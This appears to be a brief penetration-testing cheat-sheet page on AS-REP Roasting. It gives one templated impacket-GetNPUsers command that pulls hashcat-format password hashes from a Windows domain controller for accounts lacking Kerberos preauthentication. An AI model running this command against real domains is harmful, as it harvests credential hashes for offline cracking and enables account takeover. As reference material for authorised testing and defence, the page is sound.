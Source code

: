 ```yaml
---
title: AS-REP Roasting
desc: Retrieve password hashes for users that do not require Kerberos preauth.
tags: [ASREP, Impacket, Kerberos, PreAuth, Windows]
alts: []
render_with_liquid: false
---
```


## 1. Use impacket-GetNPUsers

Lists users and passwords is not required Kerberos pre auth. Used for ASREPRoasting.

1. **Get a Password**

```sh
# e.g. domain: 'example.local', username: 'admin')
impacket-GetNPUsers -dc-ip <target-ip> -format hashcat example.local/admin
```